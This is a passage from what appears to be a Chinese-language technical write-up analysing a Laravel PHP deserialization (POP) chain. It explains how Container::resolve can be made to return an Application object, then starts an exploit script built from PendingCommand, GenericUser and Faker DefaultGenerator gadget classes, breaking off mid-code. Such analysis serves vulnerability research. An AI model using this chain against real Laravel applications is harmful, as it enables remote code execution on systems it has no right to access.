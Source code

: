             array_pop($this->with);
    
            return $object;
        }

第一种思路：

我们看到resolve方法中:

    // namespace Illuminate\Container
    if (isset($this->instances[$abstract]) && ! $needsContextualBuild) {
                return $this->instances[$abstract];
            }

如果我们可以控制$this->instances，那么我们将有可能返回一个任意对象，最终该对象会赋值给$this->app[Kernel::class]，在这里选取的是\Illuminate\Foundation\Application，该类同样继承自Containers,因此同样会进入该方法，此时$this就是Application这个实例，而我们想要返回的同样也是该类，因此我们需要做的是

Application->instances['Illuminate\Contracts\Console\Kernel'] = Application

至于为何选取Application在之后分析过程中也就明了了：

分析到这我们可以先构造部分EXP:

    <?php
    namespace Illuminate\Foundation\Testing{
    //执行函数所在处
        use PHPUnit\Framework\TestCase as PHPUnitTestCase;
    
        class PendingCommand{
            protected $app;
            protected $command;
            protected $parameters;
            public $test;
            public function __construct($test, $app, $command, $parameters)
            {
                $this->app = $app;
                $this->test = $test;
                $this->command = $command;
                $this->parameters = $parameters;
            }
        }    
    }
    
    namespace Illuminate\Auth{
    //此处和下面一样都是触发get的，二选一即可
        class GenericUser{
            protected $attributes;
            public function __construct(array $attributes)
            {
                $this->attributes = $attributes;
            }
            public function __get($key)
            {
                return $this->attributes[$key];
            }
        }
    }
    //__get方法也同样可以使用如下类
    namespace Faker{
        class DefaultGenerator{
            protected $default;
            public function __construct($default = null)
            {
                $this->default = $default;
            }
            public function __get($attribute)
            {
                return $this->default;